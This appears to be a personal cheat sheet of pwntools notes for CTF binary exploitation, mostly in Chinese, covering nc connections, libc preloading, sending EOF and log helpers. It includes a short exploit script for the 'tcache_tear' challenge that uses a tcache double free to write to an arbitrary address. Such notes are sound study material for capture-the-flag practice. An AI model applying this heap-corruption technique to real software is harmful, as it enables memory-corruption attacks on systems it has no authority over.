


[PWN 常用指令與概念 \| r809's Notes (r888800009.github.io)](https://r888800009.github.io/software/security/binary/pwn-notes/)
远程连接

**Linux nc命令**

nc ip port
*来自 \<<https://www.runoob.com/linux/linux-comm-nc.html>\>*

设置libc
p = process(\["/home/ubt20/tools/glibc-all-in-one/libs/2.23-0ubuntu11.3_amd64/ld-2.23.so", "./main"\],

env={"LD_PRELOAD":"/home/ubt20/tools/glibc-all-in-one/libs/2.23-0ubuntu11.3_amd64/libc-2.23.so"})

\# 如果有其他的lib文件

export LD_LIBRARY_PATH=\$(pwd):\$LD_LIBRARY_PATH

p = process(myfile,env={"LD_LIBRARY_PATH":"."})

lambda
from pwn import \*

context(arch='amd64',os='linux',log_level='debug')

myelf = ELF("./tcache_tear")

io = process(myelf.path)

sla = lambda delim,data : io.sendlineafter(delim,data)

init = lambda name : sla("Name:",name)

malloc = lambda size,data : (sla("choice :","1"),sla("Size:",str(size)),sla("Data:",data))

free = lambda : sla("choice :","2")

info = lambda : sla("choice :","3")

\# use tcache dup to arbitrary address write

def aaw(len,addr,data):

malloc(len,'a')

free()

free()

malloc(len,p64(addr))

malloc(len,'a')

malloc(len,data)

\# use aaw to modify name

name_bss = 0x602060

init('xuan')

aaw(0x50,name_bss,'admin')

info()

io.interactive()

多行返回值

这样f的返回值会是一个(None,None)的元组，可以利用索引提供返回值

f=lambda:(print(1),print(2),3,)\[-1\]

*来自 \<<https://blog.csdn.net/qq_44589977/article/details/93220140>\>*

log输出
def log_info(string) :

sys.stderr.write((u'\u001b\[37;1m\[\u001b\[32m+\u001b\[37;1m\]\u001b\[0m ' + string + '\n').encode())

*来自 \<<https://mineta.tistory.com/145>\>*

发送EOF
[pwntools发送eof信号 - CodeAntenna](https://codeantenna.com/a/v8Z9u4KCu6)

import tty

p.send(chr(tty.CEOF))

法二：

p.sock.shutdown(socket.SHUT_RW)

\# or

\# p.shutdown_raw('send')

